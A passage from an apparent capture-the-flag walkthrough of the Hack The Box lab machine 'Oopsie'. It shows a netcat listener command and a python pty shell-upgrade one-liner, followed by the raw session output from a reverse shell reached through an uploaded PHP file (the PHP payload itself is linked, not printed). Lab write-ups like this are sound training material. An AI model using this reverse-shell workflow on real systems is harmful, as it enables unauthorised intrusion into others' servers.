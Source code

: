 Here I found `uploads` directory thus by changing the url to `10.10.10.28/uploads/phprev.php`
    
- [php used here is](phprev.php)
<p align="center">
  <img width="700" height="400" src="buffering.png">
</p>

Here it kept buffering but `nc` connection gets extablished simultaneously.
- [`nc -lvmp port`](nc.txt) ## nc -lvmp 10500
    - ```python3 -c 'import pty; pty.spawn("/bin/bash")'``` (Bonus for getting interactive terminal like access)
```
Connection from 10.10.10.28:53738
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 19:29:26 up  1:00,  0 users,  load average: 0.08, 0.05, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ www-data@oopsie:/$ pwd
/
www-data@oopsie:/$ ls
bin    dev   initrd.img      lib64	 mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib	     media	 proc  sbin  swap.img  usr  vmlinuz.old
www-data@oopsie:/$ cd usr
www-data@oopsie:/usr$ ls
bin  games  include  lib  local  sbin  share  src
www-data@oopsie:/usr$ cd ..
www-data@oopsie:/$ cd var
www-data@oopsie:/var$ ls
backups  crash	local  log   opt  snap	 tmp
cache	 lib	lock   mail  run  spool  www
www-data@oopsie:/var$ cd www
www-data@oopsie:/var/www$ ls
html
www-data@oopsie:/var/www$ cd html
www-data@oopsie:/var/www/html$ ls
cdn-cgi  css  fonts  images  index.php	js  themes  uploads
www-data@oopsie:/var/www/html$ cd cdn-cgi
```